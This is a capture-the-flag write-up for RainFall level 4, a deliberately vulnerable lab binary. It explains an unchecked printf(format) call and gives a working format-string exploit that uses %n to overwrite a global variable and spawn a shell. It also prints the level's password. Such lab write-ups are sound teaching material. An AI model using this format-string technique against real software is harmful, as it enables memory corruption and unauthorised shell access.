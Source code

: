 # Level4

## Analysis

**In `main` :**

call to function `n()`

**In `n()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
call to function `p()` which use this `format` string in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x1025544`

`m` adress:
```
(gdb) info variable
...
0x08049810  m
...
```
___

## Exploit

If we try to store a buffer `ABCD`, its done on the twelfth position
```
level4@RainFall:~$ python -c 'print "ABCD %12$x"' | ./level4
ABCD 44434241
```

We change `m` value using its little endian adress `\x10\x98\x04\x08`
m must equal `0x1025544` which is 16930116, minus the 4 bytes of the address 16930112
```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

___

*Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*